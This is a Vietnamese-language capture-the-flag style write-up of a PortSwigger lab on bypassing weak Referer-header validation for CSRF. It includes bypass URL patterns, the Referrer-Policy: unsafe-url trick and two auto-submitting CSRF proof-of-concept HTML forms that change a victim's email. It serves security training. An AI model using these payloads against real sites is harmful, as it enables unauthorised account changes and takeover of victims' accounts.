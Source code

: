# Validation of Referer can be circumvented

Việc xác thực **Referer header** có thể bị bỏ qua nếu web app thực hiện kiểm tra một cách thiếu chặt chẽ. Dưới đây là giải thích chi tiết và ví dụ về cách tấn công này hoạt động:

**1. Trường hợp 1: Kiểm tra tiền tố (prefix) của domain**

**- Cách ứng dụng kiểm tra**: Web app chỉ xác nhận xem domain trong Referer header **bắt đầu bằng** một giá trị mong đợi (ví dụ: **vulnerable-website.com**).

**- Cách tấn công**: Kẻ tấn công có thể tạo một subdomain trên domain của họ, có tên bắt đầu bằng domain mục tiêu. Ví dụ:

*http://vulnerable-website.com.attacker-website.com/csrf-attack*

- Domain thực tế là *attacker-website.com*, nhưng subdomain *vulnerable-website.com* khiến ứng dụng nghĩ rằng Referer hợp lệ (vì nó bắt đầu bằng *vulnerable-website.com*).

**2. Trường hợp 2: Kiểm tra domain có xuất hiện ở bất kỳ đâu trong Referer**

**- Cách web app kiểm tra:** Web app chỉ xác nhận xem domain mục tiêu (ví dụ: *vulnerable-website.com*) **có tồn tại** trong *Referer header* không, bất kể vị trí.

**- Cách tấn công:** Kẻ tấn công đặt domain mục tiêu trong query string hoặc đường dẫn của URL độc hại. Ví dụ:

*http://attacker-website.com/csrf-attack?vulnerable-website.com*

- Referer header sẽ chứa *vulnerable-website.com* trong query string, khiến web app chấp nhận request.

**3. Vấn đề với trình duyệt hiện đại**

- **Cắt bỏ query string**: Nhiều trình duyệt (Chrome, Firefox...) tự động **xóa query string** khỏi Referer header để tránh rò rỉ thông tin nhạy cảm. Điều này có thể khiến kịch bản tấn công trên không hoạt động khi thử nghiệm trực tiếp trên trình duyệt.

- **Giải pháp cho kẻ tấn công**: Đặt header *Referrer-Policy: unsafe-url* trong response chứa mã khai thác. Header này buộc trình duyệt gửi toàn bộ URL (bao gồm cả query string) trong Referer header.

**Ví dụ thực tế:**

- **Bước 1**: Kẻ tấn công tạo trang web độc hại với URL:

    *http://attacker-website.com/csrf-attack?vulnerable-website.com*

- **Bước 2**: Trang web này chứa mã khai thác CSRF và thiết lập header:

    *Referrer-Policy: unsafe-url*

- **Bước 3**: Khi nạn nhân truy cập, trình duyệt gửi Referer đầy đủ:

    *Referer: http://attacker-website.com/csrf-attack?vulnerable-website.com*

- **Bước 4**: Ứng dụng kiểm tra thấy *vulnerable-website.com* trong Referer và cho phép request.

# Lab: CSRF with broken Referer validation
![img](https://github.com/DucThinh47/PortSwigger/blob/main/Cross-site%20request%20forgery%20(CSRF)/images/image.png?raw=true)

### Web page
![img](1)

### Solution

Login với account được cấp wiener:peter: 

![img](2)

Change email: 

![img](3)

Trong Burp Suite, truy cập HTTP history trong tab Proxy và send change email request tới Repeater: 

![img](4)

Thử thay đổi giá trị của domain trong Referer header: 

![img](5)

Send Request này: 

![img](6)

--> Nhận được response thông báo Invalid referer header.

Thử xóa cả Referer header và Send Request: 

![img](7)

--> Vẫn nhận được thông báo Invalid referer header.

Lần này thử chỉnh sửa Referer header từ *https://0a2000a8033bf69f806226bc00c30061.web-security-academy.net/my-account?id=wiener* thành *https://0a2000a8033bf69f806226bc00c30061.web-security-academy.net*

![img](8)

--> Có thể đổi email --> kiểm tra Referer header không đúng cách.

Thử sửa thành *https://hacked-domain.com/?0a2000a8033bf69f806226bc00c30061.web-security-academy.net* để chỉnh sửa web app làm query param. 

![img](9)

--> Vẫn đổi email thành công --> backend của web app vẫn chấp Referer header bị inject, thay vì xác thực chính xác toàn bộ Referer header, chỉ kiểm tra xem tên domain ở Host header có nằm trong Referer header hay không (bất kỳ vị trí nào). 

--> Cần tạo payload: 

    <html>
    <!-- CSRF PoC - generated by Burp Suite Professional -->
    <body>
    <script>history.pushState('', '', '/')</script>
        <form action="https://VULNERABLE-APPLICATION.net/my-account/change-email" method="POST">
        <input type="hidden" name="email" value="Test@Test.com" />
        <input type="submit" value="Submit request" />
        </form>
        <script>document.forms[0].submit();</script>
    </body>
    </html>

*<script>history.pushState('', '', '/')</script>* Thực hiện thêm 1 mục vào session history stack. Có 3 tham số, tham số đầu tiên là *state object*, tham số thứ hai là *title* và tham số cuối cùng là *the url*. 

Chỉnh tham số thứ 3 thành lab-id, payload sẽ thành như sau: 

    <html>
        <!-- CSRF PoC - generated by Burp Suite Professional -->
        <body>
        <script>history.pushState('', '', '/?0a2c00e60353519981c7709a00c700e7.web-security-academy.net')</script>
            <form action="https://0a2c00e60353519981c7709a00c700e7.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="Test@Test.com" />
            <input type="submit" value="Submit request" />
            </form>
            <script>document.forms[0].submit();</script>
        </body>
        </html>

Go to exploit server và copy payload vào body: 

![img](10)

Store và View exploit. Nhận được thông báo Invalid referer header: 

![img](11)

Điều này là do nhiều trình duyệt hiện đại strip query string từ Referer header theo mặc định như là một biện pháp bảo mật. Để ghi đè hành vi này và đảm bảo rằng URL đầy đủ được bao gồm trong request, thêm header Referrer-Policy: unsafe-url vào phần Head: 

![img](12)

Sửa email trong payload, store và view exploit:

![img](13)

--> Đổi được email. Tiếp tục thay đổi email, store và deliver exploit to victim:

Solved the lab!

![img](14)




